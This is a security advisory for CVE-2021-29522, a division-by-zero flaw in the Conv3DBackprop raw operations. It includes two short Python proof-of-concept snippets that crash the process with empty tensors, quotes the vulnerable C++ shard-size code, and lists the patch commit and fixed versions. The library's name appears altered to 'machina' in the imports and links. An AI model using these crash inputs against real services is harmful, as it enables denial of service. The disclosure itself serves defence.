 ## TFSA-2021-011: Division by 0 in `Conv3DBackprop*`

### CVE Number
CVE-2021-29522

### Impact
The `tf.raw_ops.Conv3DBackprop*` operations fail to validate that the input
tensors are not empty. In turn, this would result in a division by 0:

```python
import machina as tf

input_sizes = tf.constant([0, 0, 0, 0, 0], shape=[5], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 0, 0, 1, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropInputV2(input_sizes=input_sizes, filter=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```
```python
import machina as tf

input_sizes = tf.constant([1], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
filter_tensor = tf.constant([0, 0, 0, 1, 0], shape=[5], dtype=tf.int32)
out_backprop = tf.constant([], shape=[1, 1, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropFilterV2(input=input_sizes, filter_sizes=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/machina/machina/blob/a91bb59769f19146d5a0c20060244378e878f140/machina/core/kernels/conv_grad_ops_3d.cc#L430-L450)
does not check that the divisor used in computing the shard size is not zero:

```cc
  const int64 size_A = output_image_size * dims.out_depth;
  const int64 size_B = filter_total_size * dims.out_depth;
  const int64 size_C = output_image_size * filter_total_size;
  const int64 work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction
        ? 1
        : (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

Thus, if attacker controls the input sizes, they can trigger a denial of service
via a division by zero error.

### Patches
We have patched the issue in GitHub commit
[311403edbc9816df80274bd1ea8b3c0c0f22c3fa](https://github.com/machina/machina/commit/311403edbc9816df80274bd1ea8b3c0c0f22c3fa).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
